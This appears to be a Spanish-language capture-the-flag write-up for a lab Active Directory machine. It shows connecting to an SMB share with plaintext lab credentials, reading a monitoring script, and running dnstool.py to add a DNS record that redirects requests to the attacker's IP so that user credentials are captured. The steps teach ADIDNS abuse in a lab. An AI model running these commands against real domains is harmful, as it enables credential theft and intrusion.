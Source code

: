 Con **smbclient** procederemos a conectarnos al recurso compartido "IT" y nos descargaremos todo el contenido del recurso.

```bash
smbclient //10.10.10.248/IT -U 'Tiffany.Molina%NewIntelligenceCorpUser9876
```

<figure><img src="../../../.gitbook/assets/1034_vmware_A7cxT8ZUin (1).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado un script en un recurso SMB que realiza comprobaciones del estado de servidores web registrados en Active Directory. El script itera sobre los registros DNS que comienzan con "web" y, si no recibe un estado 200 de respuesta, envía un correo electrónico a "Ted Graves".

```bash
cat downdetector.ps1
```

<figure><img src="../../../.gitbook/assets/1035_vmware_O2enpmraye.png" alt=""><figcaption></figcaption></figure>

## Creating a DNS Record (dnstool.py) \[Abusing ADIDNS]

Para aprovechar una vulnerabilidad en el entorno de Active Directory, utilicé la herramienta **dnstool.py** para crear un registro DNS que redirige las solicitudes a mi dirección IP. Esto permite que, al verificar el estado del servidor web, se utilicen las credenciales del usuario que está definido en "UseDefaultCredentials".

Una vez añadido el registor DNS, procederemos con el siguiente punto.

{% code overflow="wrap" %}
```bash
python3 /opt/krbrelayx/dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webgzzcoo -a add -t A -d 10.10.14.13 10.10.10.248
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1041_vmware_yXdrw6Bz2U.png" alt=""><figcaption></figcaption></figure>
